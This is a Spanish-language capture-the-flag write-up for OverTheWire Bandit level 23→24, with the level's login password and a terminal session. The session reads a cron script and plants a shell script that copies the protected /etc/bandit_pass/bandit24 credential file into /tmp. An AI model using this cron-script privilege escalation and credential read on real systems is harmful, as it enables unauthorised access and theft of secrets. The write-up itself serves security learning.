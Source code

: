 # Bandit Level 23 → Level 24


## Objetivo

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos de acceso

bandit23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G


## Solucion
``` bash

bandit23@bandit:~$ ls /etc/cron.d
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit23@bandit:~$ cat /usr/bin/cron
cronjob_bandit15_root.sh  cronjob_bandit23.sh       crontab
cronjob_bandit17_root.sh  cronjob_bandit24.sh       
cronjob_bandit22.sh       cronjob_bandit25_root.sh  
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ ^C
bandit23@bandit:~$ cd /var/spool/$myname/foo
-bash: cd: /var/spool//foo: No such file or directory
bandit23@bandit:~$ mkdir /tmp/fmb19
bandit23@bandit:~$ cd /tmp/
bandit23@bandit:/tmp$ cd fmb19
bandit23@bandit:/tmp/fmb19$ nano fmbscript.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/fmb19$ nano fmbscript.sh 
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/fmb19$ cat fmbscript.sh 
cat /etc/bandit_pass/bandit24 > /tmp/fmb19/password
bandit23@bandit:/tmp/fmb19$ chmod 777 fmbscript.sh 
bandit23@bandit:/tmp/fmb19$ touch password
bandit23@bandit:/tmp/fmb19$ chmod 666 password
bandit23@bandit:/tmp/fmb19$ ls -la
total 112
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 28 18:33 .
drwxrwx-wt 3010 root     root     106496 Feb 28 18:34 ..
-rwxrwxrwx    1 bandit23 bandit23     52 Feb 28 18:32 fmbscript.sh
-rw-rw-rw-    1 bandit23 bandit23      0 Feb 28 18:33 password
bandit23@bandit:/tmp/fmb19$ cp fmbscript.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/fmb19$ ls -la
total 116
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 28 18:33 .
drwxrwx-wt 3010 root     root     106496 Feb 28 18:36 ..
-rwxrwxrwx    1 bandit23 bandit23     52 Feb 28 18:32 fmbscript.sh
-rw-rw-rw-    1 bandit23 bandit23     33 Feb 28 18:36 password
bandit23@bandit:/tmp/fmb19$ cat password 
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

```

## Notas adicionales

| comado | descripcion |
|----------|-------------|
| ---| ---
|

## Referencias
